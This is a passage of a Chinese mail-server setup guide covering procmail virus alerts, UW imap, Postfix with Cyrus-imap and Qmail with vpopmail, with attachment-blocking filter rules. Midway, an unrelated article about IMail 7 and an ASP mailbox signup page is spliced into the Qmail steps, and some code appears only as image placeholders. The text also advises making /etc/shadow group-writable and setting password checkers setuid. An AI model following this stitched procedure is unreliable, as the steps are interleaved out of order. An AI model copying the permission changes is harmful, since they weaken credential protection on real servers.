  # 利用 procmail 带的 formail 程序格式化信件头部成为回信格式，在其中加入新的 From 域的值，
  # 并用文件 /etc/AlertMsg/RetVirus 的内容（一般是提醒用户发送的信件有毒）当信件体，
  # 然后发送出去。这里我是把发信人地址 From，标题 Subject 等都当作信件头的一个域。

  :0 hc
  | (formail -A From: "X-loop" -I Content-Type: "text/plain" -I Content-Transfer-Encoding: "8bit"; cat /etc/AlertMsg/RecVirus) | /usr/lib/sendmail -t
  # 在信件头部添加新的 From 域后，强制信件格式为 text/plain 类型，8bit 编码，
  # 然后把 /etc/AlertMsg/RecVirus 的内容（一般是提醒用户有人给他发了含病毒的邮件）当信件体，
  # 然后交给 sendmail 发送出去
  
  :0
  /junk/$LOGNAME$mydate
  # 把这封怀疑为病毒的邮件以用户名＋日期的格式存放在 /junk 目录，以备查。
}
```

2002 年 4 月底求职信病毒爆发的时间里，我用这个规则有效拦截了很多病毒，可见 Procmail 这个程序虽然小，但是用处确实是很大。

至于使用 Sendmail 的邮件服务器提供 POP3 和 IMAP 服务的软件有很多，这里介绍一个安装比较方便的软件 — University of Washington imap，这个软件可以从 `ftp://ftp.cac.washington.edu/imap/imap.tar.Z` 得到，安装方法十分简单：

```sh
# tar xvfz imap.tar.Z
# cd imap-2001a
```

然后对应各种操作系统有不同的 make 编译选项：

| 操作系统 | 编译命令 |
| :--- | :--- |
| FreeBSD | `make bsf` |
| GCC Solaris | `make gso` |
| 传统口令方式 Linux（无 shadow） | `make lnx` |
| 使用 PAM 的 Linux | `make lnp`（RedHat 7.2 要用 `make lrh`） |
| 使用了 shadow 的 Linux | `make slx` |
| Solaris | `make sol` |

这样 make 以后就把 University of Washington imap 装到了机器上面，可以通过客户端软件比如 Outlook 等连接到服务器收发信了。

#### Postfix 安装及使用经验

Postfix 一般情况下与 Cyrus-imap 搭配组成一个邮件服务器。Postfix 的 SMTP 验证需要通过 SASL 库才可以实现，我们在前面已经介绍过如何安装 SASL 验证库，这里就不再介绍了。除了 Cyrus-imap 外，所有需要通过 SASL 进行验证的客户端软件（Postfix、Sendmail 等）都需要在 SASL 库的 SASL 目录下创建其进程所对应的配置文件，并在其中指定验证方式。如 Sendmail 的文件名为 `Sendmail.conf`，而 Postfix 的文件名则是 `smtpd.conf`。

Postfix 通过 LMTP 与 Cyrus-imap 通讯，将发往本地的邮件直接通过 LMTP 传送给 Cyrus-imap 处理。缺省情况下，Postfix 和 Cyrus-imap 都使用系统账号作为缺省的邮件账号，但是也可以使用 MySQL 等数据库。Postfix 与 Cyrus-imap 结合并使用系统账号作为邮件账号，只适用于不超过 2000 个账号的系统，当使用 MySQL 数据库储存邮件账号时，只适用于不超过 10 万个邮件账号的系统。

安装之前要建立几个账号：

```sh
# useradd -g mail postfix
# useradd -g mail cyrus
# groupadd postdrop
```

由于 cyrus-imap 在用系统账号当邮件账号的时候，需要读取 `/etc/shadow` 文件里面的东西来验证密码；同时 Postfix 在用 SASL 进行用户认证的时候，需要读写 `sasldb`，所以，为了不降低系统安全性，可以用命令：

```sh
# chown root.mail /etc/shadow
# chmod 660 /etc/shadow
# chgrp mail /etc/sasldb
# chmod g+rw /etc/sasldb
```

把 `/etc/shadow` 文件的属组改为 mail 组，同组用户可以同时读写。

首先安装 Cyrus-imap。从 `ftp://ftp.andrew.cmu.edu/pub/cyrus-mail/` 可以下载到当前最新版的 Cyrus-imap，版本是 2.0.16，文件名是 `cyrus-imapd-2.0.16.tar.gz`。按照下面的步骤安装：

```sh
# tar xvfz cyrus-imapd-2.0.16.tar.gz
# cd cyrus-imapd-2.0.16
```

由于 cyrus-imap 的配置文件有点问题，所以需要手动修改 `configure` 文件，找到 `CPPFLAGS="-I/usr/local/include ${CPPFLAGS}"` 这一行，修改成 `CPPFLAGS="-I/usr/local/include -I../et ${CPPFLAGS}"`，不然安装的时候会提示找不到 `com_err.h` 文件。

```sh
# ./configure --with-auth=unix
# make depend
# make all CFLAGS=-O
# make install
```

修改 `/etc/syslog.conf`，在尾部加入两行：

```text
local6.debug    /var/adm/imapd.log
auth.debug      /var/adm/auth.log
```

然后建立两个 Cyrus-imap 的配置文件 `/etc/imapd.conf`，文件内容是：

```conf
configdirectory: /var/imap/conf
partition-default: /var/spool/imap
admins: cyrus root
srvtab: /var/imap/srvtab
pwcheck_method: shadow
sendmail: /usr/sbin/sendmail
sieveusehomedir: false
sievedir: /var/imap/sieve
```

还有 `/etc/cyrus.conf`，内容是：

```conf
START {
  mboxlist    cmd="ctl_mboxlist -r"
  deliver     cmd="ctl_deliver -r"
}

SERVICES {
  imap        cmd="imapd" listen="imap" prefork=0
  pop3        cmd="pop3d" listen="pop3" prefork=0
  sieve       cmd="timsieved" listen="127.0.0.1:sieve" prefork=0
  lmtpunix    cmd="lmtpd" listen="/var/imap/conf/socket/lmtp" prefork=0
}
```

同时必须确保 `/etc/services` 里面有如下定义的服务：

```text
pop3    110/tcp
imap    143/tcp
sieve   2000/tcp
```

还必须创建 Cyrus-imap 运行时需要的几个目录：

```sh
# mkdir -p /var/imap/sieve
# mkdir -p /var/imap/srvtab
# mkdir /var/spool/imap
# chown -R cyrus.mail /var/imap
# chown -R cyrus.mail /var/spool/imap
# su cyrus
$ tools/mkimap
$ exit
```

如果嫌每次都要用 `/usr/cyrus/bin/master` 来运行 cyrus-imap 麻烦的话，可以写一个运行脚本 `/etc/rc.d/init.d/cyrus-imap`，内容是：

```sh
#!/bin/sh
start() {
    #start cyrus-imapd
    if [ ! -x /usr/cyrus/bin/master ]; then
        echo "no such file or file can't execute";
    fi
    if [ ! -f /var/lock/subsys/cyrus.pid ]; then
        /usr/cyrus/bin/master&
        echo $! > /var/lock/subsys/cyrus.pid
        echo ""
        echo "Cyrus IMAP Server started."
        echo ""
    else
        echo "Cyrus IMAP Server:`cat /var/lock/subsys/cyrus.pid`"
        kill -TERM `cat /var/lock/subsys/cyrus.pid`
        rm -f /var/lock/subsys/cyrus.pid
        echo ""
        echo "Cyrus IMAP Server shutdown normally."
        echo ""
        /usr/cyrus/bin/master&
        echo $! > /var/lock/subsys/cyrus.pid
        echo ""
        echo "Cyrus IMAP Server started."
        echo ""
    fi
}

stop() {
    #stop cyrus-imapd
    if [ ! -f /var/lock/subsys/cyrus.pid ]; then
        echo ""
        echo "Is cyrus running already?"
        echo "I can't found it's pid."
        echo ""
    else
        echo "Cyrus IMAP Server:`cat /var/lock/subsys/cyrus.pid`"
        kill -TERM `cat /var/lock/subsys/cyrus.pid`
        rm -f /var/lock/subsys/cyrus.pid
        echo ""
        echo "Cyrus IMAP Server shutdown normally."
        echo ""
    fi
}

# See how we were called.
case "$1" in
    start|restart)
        start
        ;;
    stop)
        stop
        ;;
    *)
        echo $"Usage: $0 {start|stop|restart}"
        exit 1
esac
```

然后记得 `chmod +x cyrus-imapd`，这样就可以在开机的时候用 `cyrus-imapd start` 来启动 cyrus-imap 了。

现在我们用 `cyrus-imapd start` 来启动一下 cyrus-imap，然后看 `/var/log/message`，如果尾部类似下面的内容，那么证明服务已经成功启动：

```text
Apr 28 00:04:42 mail master[4550]: process started
Apr 28 00:04:42 mail ctl_mboxlist[4551]: running mboxlist recovery
Apr 28 00:04:43 mail ctl_mboxlist[4551]: done running mboxlist recovery
Apr 28 00:04:43 mail master[4550]: ready for work
```

服务启动后，就可以开始建立用户了。

```sh
# useradd -s /usr/bin/passwd test
# /usr/cyrus/bin/cyradm -u cyrus localhost
```

进入 cyrus-imap 的管理界面，提示符是主机名 + ">" 号（例如 `mail>`）：

在这个提示符下输入：

```text
mail>createmailbox user.test
```

建立邮件账号 test，然后用下面的命令建立邮箱：

```text
mail>createmailbox user.test.Sent
mail>createmailbox user.test.Trash
mail>createmailbox user.test.Drafts
```

如果要删除用户，则用：

```
mail>deletemailbox user.test
```

删除文件夹：

```
mail>deletemailbox user.test.Draft
```

设置用户信箱大小为 8M：

```
mail>setquota user.test 8000
```

装完 cyrus-imap 以后，就可以装 Postfix 了。首先到：ftp://postfix.linuxaid.com.cn/pub/postfix/index.html 获得 Postfix 的安装包，现在的最新版本是 1.1.7，文件是 postfix-1.1.7.tar.gz。按照下面的步骤安装：

```bash
#tar xvfz postfix-1.1.7.tar.gz
#cd postfix-1.1.7
```

为了让 Postfix 支持 SASL 认证方式，在编译前需要对 Makefile 进行修改：
代码如下图：



回答完这些问题，系统就会按照 these 信息，把 Postfix 安装到指定的地方。

装完之后的 Postfix 是不能用的，因为还没有配置，配置文件里面的内容都是注释状态，没有起作用。为了让 Postfix 能用，需要修改配置文件，使用符合自己机器情况的参数，然后去掉相关项目前的注释。配置文件一般在 /etc/postfix/main.cf，一般需要有的项目代码如下图：



```conf
# 为了进行身份验证，还有如下内容
smtpd_recipient_restrictions = permit_mynetworks,
 permit_sasl_authenticated, reject_maps_rbl,
 check_relay_domains
smtpd_sasl_auth_enable = yes
broken_sasl_auth_clients = yes
smtp_sasl_security_options = noanonymous
maps_rbl_domains = blackholes.mail-abuse.org, dialups.mail-abuse.org, relays.mail-abuse.org

smtpd_client_restrictions = permit_mynetworks,
reject_maps_rbl
```

最后用 `postfix start` 来启动 postfix。

如果要加强服务器的吞吐量，可以修改 main.cf 里面的相关选项：

```conf
qmgr_message_active_limit = 250
qmgr_message_recipient_limit = 500
```

同时修改 master.cf 里面同时打开的子程序的最大数量：

```conf
smtp    inet  n  -  n  -  5120  smtpd
#628    inet  n  -  n  -  -     qmqpd
pickup  fifo  n  -  n  60  1  pickup
cleanup unix  n  -  n  -  24  cleanup
qmgr    fifo  n  -  n  300 1  qmgr
#qmgr   fifo  n  -  n  300 1  nqmgr
rewrite unix  -  -  n  -  -  trivial-rewrite
bounce  unix  -  -  n  -  0  bounce
defer   unix  -  -  n  -  0  bounce
flush   unix  n  -  n  1000 0  flush
smtp    unix  -  -  n  -  -  smtp
showq   unix  n  -  n  -  -  showq
error   unix  -  -  n  -  -  error
local   unix  -  n  n  -  -  local
virtual unix  -  n  n  -  -  virtual
lmtp    unix  -  -  n  -  -  lmtp
```

为了提高安全性，还要在 main.cf 里面做如下限制：

限制 ETRN 和 VRFY 的使用：

```conf
smtpd_etrn_restrictions = permit_sasl_authenticated
disable_vrfy_command = yes
```

取消 postfix 的 banner：

```conf
smtpd_banner = $myhostname ESMTP
```

Postfix 有自己对邮件头部和邮件体的过滤规则，只要在 main.cf 里面加入两行：

```conf
header_checks = regexp:/etc/postfix/header_checks
body_checks = regexp:/etc/postfix/body_checks
```

然后在 /etc/postfix 下面建立 `header_checks` 和 `body_checks` 这两个文件，就可以对邮件的头部和信件体进行检查了。这两个文件的内容一般是：

`/^someexpression/ REJECT`

比如要禁止收发含有 nimda 病毒的文件：

`/^[^\"]*name=\"readme.exe\"/ REJECT`

#### Qmail 安装及使用经验

Qmail 是一个十分小巧的 MTA，一般和 vpopmail 配合使用，可以用数据库（一般是 mysql）储存用户，实现邮件用户和系统用户分离。

现在安装采取的是 Qmail+vpopmail，采用系统用户验证。

Qmail 的安装需要很多第三方插件，这也是 Qmail 安装的一个不方便的地方。安装一个用系统用户当邮件用户的 Qmail 邮件系统，需要的软件有下面几个：

- 1. Qmail 的安装文件 `qmail-1.03.tar.gz`
  `http://cr.yp.to/software/qmail-1.03.tar.gz`
  Qmail 的 smtp 验证补丁
  `http://www.nimh.org/hacks/qmail-smtpd.c`

- 2. 为 `smtpd` 提供系统用户信息验证程序 `checkpassword` 和 `cmd5checkpw`
  `http://cr.yp.to/checkpwd/checkpassword-0.90.tar.gz`
  `http://members.elysium.pl/brush/cmd5checkpw/`

- 3. 为 Qmail 提供类似 Inetd 网络服务功能的程序 `ucspi-tcp`
  `http://cr.yp.to/ucspi-tcp/ucspi-tcp-0.88.tar.gz`

- 4. 为 Qmail 提供虚拟域名等功能的程序 `vpopmail`
  `http://www.inter7.com/vpopmail/vpopmail-5.2.tar.gz`

- 5. UNIX 系统服务管理工具 `daemontools`。这个可以选择是否要装，不过装了以后可以监视 Qmail 的服务是否停止，十分有用。虽然现在已经有了 `daemontools-0.76`，但是感觉 `daemontools-0.70` 的比较好用，故推荐 0.70 版本。
  `http://cr.yp.to/daemontools/daemontools-0.70.tar.gz`

- 6. 为了支持过滤功能，需要下列文件：
  到 `http://www.qmail.org/qmailqueue-patch` 得到 qmail-queue 的补丁包，把里面的文件内容存为 `qmailq.patch`。
  到 `http://cvs.sourceforge.net/cgi-bin/viewcvs.cgi/*checkout*/qmfilt/qmfilt/qmfilt.py?rev=1.2` 得到 `qmfilt.py`

首先要建立一些必要的目录：

```bash
#mkdir /var/qmail
#ln -s /usr/man /var/qmail/man
#mkdir /etc/qmail
#ln -s /etc/qmail /var/qmail/control
#ln -s /usr/sbin /var/qmail/bin
```

然后建立 Qmail 运行的时候需要的用户：

```bash
#groupadd nofiles
#useradd alias -g nofiles -d /var/qmail/alias -s /nonexistent
#useradd qmaild -g nofiles -d /var/qmail -s /nonexistent
#useradd qmaill -g nofiles -d /var/qmail -s /nonexistent
#useradd qmailp -g nofiles -d /var/qmail -s /nonexistent
#groupadd qmail
#useradd qmailq -g qmail -d /var/qmail -s /nonexistent
#useradd qmailr -g qmail -d /var/qmail -s /nonexistent
#useradd qmails -g qmail -d /var/qmail -s /nonexistent
```

接着开始安装上面的程序：

```bash
#tar zxvf checkpassword-0.90.tar.gz
#cd checkpassword-0.90
#make
#make setup check
#chmod 4755 /bin/checkpassword （为了让 qmaild 能使用系统用户密码）
#cd ..
#tar zxvf cmd5checkpw-0.22.tar.gz
#cd cmd5checkpw-0.22
#make
#make install
#cd ..
#tar xvfz daemontools-0.70.tar.gz
#cd daemontools-0.70
#make
#make setup check
#cd ..
#tar zxvf ucspi-tcp-0.88.tar.gz
#cd ucspi-tcp-0.88
#make
#make setup check
#cd ..
#tar zxvf qmail-1.03.tar.gz
#cp qmail-smtpd.c qmail-1.03/
#patch -d qmail-1.03 < qmailq.patch
#cd qmail-1.03
#make setup check
#./config（如果确定 DNS 上有这个域名记录，可以直接用./config-fast hostname.domainname）
#cp qmfilt.py /var/qmail/bin
#chown qmailq.qmail /var/qmail/bin/qmfilt.py
```

这样，Qmail 的相关文件已经放到对应的位置，现在要配置一些配置文件了。

建立文件 `/var/qmail/rc`，文件内容是：

```sh
#!/bin/sh
# Using stdout for logging
# Using control/defaultdelivery from qmail-local to deliver messages by default
exec env - PATH="/var/qmail/bin:$PATH" qmail-start "|cat /var/qmail/control/defaultdelivery"
```

建立文件 `/var/qmail/control/defaultdelivery`，设置邮件储存格式，文件内容是：

```sh
./Maildir/
```

建立文件 `/var/qmail/control/concurrencyincoming`，在里面设置并发连接数，一般就写 1000，允许 1000 个同时进入的连接。

建立过滤规则控制文件 `/var/qmail/control/qmfilt`，有个例子：

```sh
# This is the qmfilt control file
# If any email comes in that matches this
# filter, the mail will be redirected
# to the filter directory
#
# A filter regular expression must be on a single
# line and in between a pair of '%%'

# This will match any executable Visual Basic Scripts
VisualBasic %%^Content-Type: application/octet-stream;\s+name="(.*?)\.vbs"%%
Executable %%^Content-Type: application/octet-stream;\s+name="(.*?)\.exe"%%
Explorer.doc %%^Content-Type: application/msword;\s+name="(EXPLORER.DOC)"%%
SHS %%^Content-Type: application/octet-stream;\s+name="(.*?)\.shs"%%
SHB %%^Content-Type: application/octet-stream;\s+name="(.*?)\.shb"%%

# This is the Outlook date overflow bug
DATE %%^Date: .{160,}%%

# 一般的格式是：
# 规律规则名 %% 内容 %%
# 比如要过滤 nimda 病毒，可以这么设置：
#nimda %%name="(readme.exe)"%%
```

建立 daemontools 使用的和 Qmail 有关的 log 文件：

```bash
#mkdir /var/log/qmail
#mkdir -p /var/log/qmail/smtpd
#chown qmaill /var/log/qmail /var/log/qmail/smtpd
#touch /var/log/qmfilt
#chown qmaild /var/log/qmfilt
#mkdir -p /var/qmail/supervise/qmail-send/log
#mkdir -p /var/qmail/supervise/qmail-smtpd/log
#chmod +t /var/qmail/supervise/qmail-send
#chmod +t /var/qmail/supervise/qmail-smtpd
```

建立 `/var/qmail/supervise/qmail-send/run` 文件，内容为：

```sh
#!/bin/sh
exec /var/qmail/rc
```

建立 `/var/qmail/supervise/qmail-send/log/run` 文件，内容为：

```sh
#!/bin/sh
exec /usr/local/bin/setuidgid qmaill /usr/local/bin/multilog t /var/log/qmail
```

建立 `/var/qmail/supervise/qmail-smtpd/run` 文件，内容为：

```bash
#!/bin/bash
QMAILDUID=`id -u qmaild`
NOFILESGID=`id -g qmaild`
MAXSMTPD=`cat /var/qmail/control/concurrencyincoming`
/usr/local/bin/tcpserver -H -R -l 0 -t i \
-c "$MAXSMTPD" -x /etc/tcp.smtp.cdb -u "$QMAILDUID" -g "$NOFILESGID" 0 smtp \
/var/qmail/bin/qmail-smtpd /bin/checkpassword /bin/true /bin/md5checkpw /bin/true 2>&1
```

建立 `/var/qmail/supervise/qmail-smtpd/log/run` 文件，内容为：

```sh
#!/bin/sh
exec /usr/local/bin/setuidgid qmaill /usr/local/bin/multilog t /var/log/qmail/smtpd
```

把以上四个 run 文件 `chmod 755`。
为了能方便地控制 Qmail，最好建立一个控制脚本，存储在 `/etc/rc.d/init.d/qmail`，内容是：
代码如下图：



接着让各个启动级别能按不同的需要使用 Qmail 控制脚本：

```bash
#chkconfig --level 016 qmail off
#chkconfig --level 2345 qmail on
```

然后就要建立 Qmail 的访问控制文件 `/etc/tcp.smtp` 了，文件内容是：

```text
127.0.0.1:allow,RELAYCLIENT="",QMAILQUEUE="bin/qmfilt.py"
:allow,QMAILQUEUE="bin/qmfilt.py"
```

执行 `/etc/rc.d/init.d/qmail cdb` 生成 Qmail 可以识别的 cdb 格式。
建立 sendmail 的壳，让其他应用系统能使用邮件功能：

```bash
#ln -s /var/qmail/bin/sendmail /usr/lib
#ln -s /var/qmail/bin/sendmail /usr/sbin
```

最后建立系统的一些 alias（比如我要用户 abc 用来启动 Qmail）：

```bash
#echo abc > /var/qmail/alias/.qmail-root
#echo abc > /var/qmail/alias/.qmail-postmaster
ln -s .qmail-postmaster /var/qmail/alias/.qmail-mailer-daemon
chmod 644 /var/qmail/alias/.qmail-root
chmod 644 /var/qmail/alias/.qmail-postmaster
```

最后就能用 `/etc/rc.d/init.d/qmail start` 来启动 Qmail 了。
Qmail 一般都是配合 vpopmail 使用的，现在我们看看怎么安装 vpopmail。

首先需要建立 vpopmail 使用的用户：

```bash
#groupadd vchkpw
#useradd -g vchkpw -d /vpopmail vpopmail
```

然后建立访问控制文件 `/vpopmail/etc/tcp.smtp` 文件，内容是：

```text
127.0.0.1:allow,RELAYCLIENT=""
```

接着用非 root 用户解压缩 vpopmail 的包，并执行 configure 动作：

```bash
#su vpopmail
$tar zxvf vpopmail-4.9.tar.gz
$cd vpopmail-4.9
$./configure --enable-default-domain=mail.mytest.com
$make
$exit
#make install-strip
#chmod 6755 ~vpopmail/bin/vchkpw
```

（这个很重要，是为了能让 vchkpw 能读取系统用户信息）
执行完这些 vpopmail 就安装到你系统上面了，现在看看如何使用它：

- 1. 建立虚拟域

```bash
#cd ~vpopmail/bin
#./vadddomain mail.mytest.com
```

然后根据系统的提示设置该虚拟域的管理员密码。一般增加虚拟域的动作会变动几个文件：

```text
/var/qmail/control/locals
/var/qmail/control/rcpthosts
/var/qmail/control/virtualdomains
```

## 设计邮箱申请页面和汉化Web界面

文／刘志勇

电子邮件系统是Internet/Intranet不可或缺的系统。目前，在Windows NT/2000平台中，电子邮件服务器软件主要有微软公司的Exchange Server，IBM公司的莲花Lotus Domino，这些比较著名的电子邮件服务器软件价格都不菲，而且体积很庞大，系统资源占用率比较高，所需硬件要求也比较高，且其设置也特别复杂。

在这里，笔者推荐一个比较优秀的电子邮件服务器软件——IPSwitch IMail Server 7。IMail是一个IPSwitch公司出品的高性能的、基于标准的SMTP、POP3、IMAP4、LDAP等通讯协议的电子邮件服务器软件，还可以充当Finger服务器、whois服务器、Pserv服务器、Password服务器等。相对于上述所提到的那些著名的电子邮件服务器软件，IMail对硬件要求低，简单易用，使用直观的图形界面进行服务器的设置和用户管理，也支持多域名、远程管理、通过Web收发邮件、创建邮件列表、垃圾邮件处理等等功能。不仅如此，IMail对账户数据库有3种选择：引用NT账户数据库、创建IMail自己的账户数据库、引用外部数据库。尤其IMail可以引用外部数据库，也是本文重点介绍的一个方面。

```bash
/var/qmail/users/assign
/var/qmail/users/cdb
```

如果发现系统不能接收某个域的文件，一般就要检查这几个文件了。

- 2. 增加用户
- 3. 删除用户
- 4. 修改用户密码

```bash
#~vpopmail/bin/vadduser user@mail.mytest.com
#~vpopmail/bin/vdeluser user@mail.mytest.com
#~vpopmail/bin/vpasswd user@mail.mytest.com
```

可以建立一个启动文件来启动POP服务，内容是：

```bash
#!/bin/bash
QMAILDUID=`id -u qmaild`
NOFILESGID=`id -g qmaild`
MAXPOP3D=`cat /var/qmail/control/concurrencyincoming`
/usr/local/bin/tcpserver -H -R -l 0 -t 1 -c "$MAXPOP3D" -u "$QMAILDUID" -g "$NOFILESGID" 0 pop-3 /var/qmail/bin/qmail-popup /vmail/bin/vchkpw /var/qmail/bin/qmail-pop3d Maildir &
```

为了能让vchkpw来验证smtp的密码，需要改动/var/qmail/supervise/qmail-smtpd/run，把/bin/checkpassword改成~vpopmail/bin/vchkpw。启动Qmail的SMTP服务和vpopmail的POP3服务，一个完整的邮件系统就起来了。由于Qmail本着简单就是安全的原则，不支持很多功能，所以VRFY和EXPN等功能都是没有的；所以在系统安全方面，Qmail是十分出色的。

### 邮件系统安全方面其他建议

- 1. 取消不必要的服务，包括Telnet，如果非要Telnet，就使用SSHD。
- 2. 本机安装一个软件防火墙如IPtables，限制端口访问。
- 3. 在外界的路由器、硬件防火墙上面也做相关的限制。

IMail 目前最新版本是 7.11。笔者所在单位实现信息化建设时采用 IMail 7.05 做为局域网电子邮件服务器。用户可以通过 Web 界面更改自己的密码、个人资料、邮箱设置、邮件规则、自动回复、邮件转寄等进行个性化设置。但是，美中不足的是，IMail 没有邮箱申请页面，它需要管理员来完成添加用户；另外，它的 Web 界面是英文的，给英文基础差的用户造成了一定的不便。本文将讲述如何设计邮箱申请的页面和汉化 Web 界面。

本文是在 Windows 2000 Advanced Server 和 IMail 7.05 的平台下实现的，其实对 IMail 7.X 任何版本而言都是适用的。

### 一、IMail 前期准备

在 IMail 的目录中建一个 Access 数据库 user.mdb，不添加任何表，在 IMail 添加用户后会自动在 user.mdb 数据库中创建表的结构和内容。

接下来为 IMail 设置 ODBC 数据源。在控制面板中的“管理工具”中，双击“数据源（ODBC）”，在 ODBC 数据源管理器窗口中，点击“系统 DSN”卡，按“添加（D）...”按钮，从出现的列表中选择“Microsoft Access Driver (*.mdb)”，然后点击“完成”按钮。

然后在弹出的窗口中的“数据源名”填上：IMAILSECDB，这是 IMail 所默认的 ODBC 数据源名称。然后按“选择”按钮给此数据源选择数据库文件，选择刚才建立的数据库 user.mdb。这样，就完成了前期准备。

### 二、IMail 相关设置

安装 IMail 很简单，鉴于篇幅，加之本文并不是讲述 IMail 的安装和设置，只是讲述如何设计邮箱申请页面和汉化 Web 界面，笔者就不赘述了。安装的时候，只要注意安装程序询问采用哪种用户数据库的时候，选择“Use External User Database”，一定要选择这个选项。

如果先前已经安装 IMail，可以在管理员工具（IMail Administrator）更改用户数据库的设置。在“Use Database Type”对话框中选择“External Database”，就可以使用外部用户数据库，点击“Configure”按钮在弹出的窗口来查看、更改 IMail 的外部用户数据库设置。

可以看到 IMail 默认的 ODBC 数据源名称是 IMAILSECDB，由于此前已经设置好相应的数据源，所以此处不做任何改动。此时 user.mdb 内容是空的，没有任何表，在 IMail Administrator 中添加一个用户后，IMail 就在 user.mdb 中建立了表和内容。至此，就做完了相关准备，接下来就讲述如何设计邮箱申请页面了。

### 三、设计申请邮箱页面

先想一下思路。网站上的免费邮箱都是先罗列条款，然后让用户填写真实姓名、邮箱账户、邮箱密码等等相关信息。由于是在单位的 Intranet 使用，没必要那样条条框框，笔者的观点：简单实用就是美。可以这样设想：在单位的 Web 主页设立一个申请邮箱的连接，然后转到申请邮箱的页面，用户填完信息后，提交给服务器，如果成功就返回一个成功的通知页面，在该页面可以知道 POP3、SMTP 等相关信息并从此页面登录 Web 形式的页面。这里可以用 ASP，或 PHP 甚至 CGI 等。鉴于 ASP 的流行程度，本文将讲述利用 ASP 设计邮箱申请页面。其实用哪种平台（ASP、PHP……）都可以，就看系统平台的设置和管理员的喜好了。

先在那个主页的合适位置上写一行代码：

```html
<a href="http://fceec.net/mail/">申请公司电子邮箱</a>
```

此目的是点击这个超连接后就跳转到申请邮箱的页面。然后编写一个让用户填写相关信息来申请邮箱的页面：useradd.html，此文件的作用是要求用户填写真实姓名、所要申请的邮箱账户、邮箱密码等信息，最后提交给 ASP 页面来处理。编写一个 ASP 页面：useradd.asp，它的作用是在接受到用户提交的信息后，检查邮箱账户是否已经被人占用，如果没有被占用就将用户提交的信息写入 IMail 的外部用户数据库 user.mdb，否则让用户重新申请。

基于这样的思路，我们可以使用 VBScript 语言来写供用户填写信息的 HTML 文件。首先，先判定用户提交的邮箱账户是否合法。所谓合法，就是账户不能含有 @ 符号和空格。代码如下：

```vb
function isEmail(val)
    e=val.value
    if instr(e,"@")=0 and instr(e," ")=0 then
        isEmail=true
    else
        MsgBox "邮箱账户中不能含有@符号或空格"
        val.select
        isEmail=False
    end if
end function
```

为了便于辨认，邮箱账户不能短于一定的长度，要检查账户的名称的长度是否短于规定的长度。代码如下：

```vb
function isLength(val,n)
    if len(val.value)>=n then
        isLength=true
    else
        MsgBox "至少填入" & cstr(n) & "个字符！"
        val.select
        isLength=false
    end if
end function
```

最后验证两次输入的密码是否一样，代码如下：

```vb
function check()
    if not isLength(document.form1.txtID,3) then
        exit function
    elseif not isEmail(document.form1.txtID) then
        exit function
    elseif not isLength(document.form1.txtpsw,4) then
        exit function
